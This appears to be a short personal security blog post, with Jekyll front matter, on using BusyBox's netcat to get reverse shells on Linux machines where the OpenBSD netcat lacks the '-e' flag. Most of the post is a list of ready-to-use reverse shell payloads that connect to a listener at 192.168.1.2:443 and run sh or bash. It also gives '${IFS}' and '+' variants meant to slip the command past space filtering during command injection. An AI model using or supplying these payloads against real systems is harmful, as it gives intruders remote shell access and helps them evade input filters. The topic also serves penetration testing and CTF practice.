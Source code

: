 ```yaml
---
layout: single
title: BusyBox - An Overlooked Tool For Netcat Reverse Shells
excerpt: "Whether it be in a real engagement or CTF-style box, when a hacker acquires remote code execution on a machine, we want to do is retrieve a reverse shell quickly and efficiently.  One of the methods that I first learned was using `netcat` with the infamous `-e` flag to execute a binary after making a successful connection.  However in most modern Linux systems come with the **OpenBSD** version of `netcat` which lacks the crucial `-e` flag."
date: 2025-03-17
classes: wide
header:
  teaser: /assets/images/kali-logo.png
  teaser_home_page: false
  icon: /assets/images/code.png
categories:
  - code
tags:
  - reverse-shells
---
```


# Reviving the NetCat Reverse Shell

Whether it be in a real engagement or CTF-style box, when a hacker acquires remote code execution on a machine, we want to do is retrieve a reverse shell quickly and efficiently.  One of the methods that I first learned was using `netcat` with the infamous `-e` flag to execute a binary after making a successful connection.  However in most modern Linux systems come with the **OpenBSD** version of `netcat` which lacks the crucial `-e` flag.

BusyBox, however, is included on most Linux distributions and is essentially a "Swiss Army knife" of Linux utilities, packing several functions into a single binary including netcat with executable capabilities!

Here are a few busybox reverse shell payloads:

```bash
#sh
busybox nc 192.168.1.2 443 -e sh
busybox nc 192.168.1.2 443 -e /bin/sh
#bash
busybox nc 192.168.1.2 443 -e bash
busybox nc 192.168.1.2 443 -e /bin/bash
#not space
busybox+nc+192.168.1.2+443+-e+sh
busybox${IFS}nc${IFS}192.168.1.2${IFS}443${IFS}-e${IFS}sh
```
